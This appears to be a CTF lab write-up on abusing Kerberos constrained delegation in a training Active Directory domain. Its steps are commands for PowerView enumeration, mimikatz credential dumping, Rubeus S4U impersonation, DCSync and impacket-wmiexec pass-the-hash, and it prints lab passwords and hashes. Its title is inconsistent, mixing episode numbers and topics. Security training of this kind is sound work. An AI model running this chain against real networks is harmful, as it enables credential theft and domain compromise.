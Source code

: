 ```yaml
---
date: 2025-04-23
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.10 – Active Directory Certificate Services"
tags: ['impacket', 'kerberos', 'ldap', 'mimikatz', 'privilege escalation', 'rce']

description: "Kerberos Ep.10 – Constrained Delegation - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.10 – Constrained Delegation


![image1](../resources/24572ad78ded4dd98fdf3c6ad76e3479.png)

- RDP:
```bash
xfreerdp /v:10.102.178.2 /u:s.villanelle /d:krbtown /p:Summ3r2021! +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Enumerating for constrained delegation:
  - Open Powerview_dev.ps1:
```bash
. .\Powerview_dev.ps1

Get-DomainComputer -TrustedToAuth

```

![image2](../resources/929e32b85b234e2a8dabd20fc9e07801.png)


![image3](../resources/5bec82bd8acc4f948467580078970b92.png)


![image4](../resources/aa1e7bdd94104b41bae886da0de5adf0.png)


![image5](../resources/c1cb618a49bb4af48af5de15fd518b91.png)

- RDP to WKS-02
- Run mimikatz
```bash
privilege::debug

sekurlsa::logonpasswords

```

![image6](../resources/c848a6fa7cc642dca0f7f15e5d943d62.png)


![image7](../resources/dc5ca5cbdc1b4844a52c7ac6aa02134a.png)

- Impersonate a.belridge, using workstation-02\$ as the target host:
```bash
.\Rubeus.exe s4u /user:workstation-02$ /rc4:[HASH] /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

.\Rubeus.exe s4u /user:workstation-02$ /rc4:6ee2e72810d54399a588b424ac22df1e /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

```

![image8](../resources/1fb367d85ec84645869a9f58d631e39c.png)


![image9](../resources/6507e1cfe4f54498893b741d1128dd2e.png)


![image10](../resources/5f0674f9dc0b4c7aab78a87b27787a1e.png)


![image11](../resources/5b32eceaae30422989624bf7549904b9.png)


![image12](../resources/89cbbec614654ca7a6039fcec99f93ca.png)


![image13](../resources/cbed1e41eff34035b87a29e067e09fe5.png)

- Run Mimikatz on an elevated command prompt:
```bash
lsadump::dcsync /user:krbtown\a.belridge

```

![image14](../resources/ad8d9d01313046279b3849a1bbe84b0c.png)

- Use wmiexec to get shell:
```bash
impacket-wmiexec [DOMAIN][USERNAME]@[TARGET] -hashes '[LM-HASH]:[NT-HASH]'

impacket-wmiexec krbtown/a.belridge@10.102.93.148 -hashes 'a76a0f6f801d8430903f7f299c18dfc4:ed882753d4665914577c19b6b85ead51'

```

![image15](../resources/65b197d9a02d4da48061d4fea7a5b6bd.png)
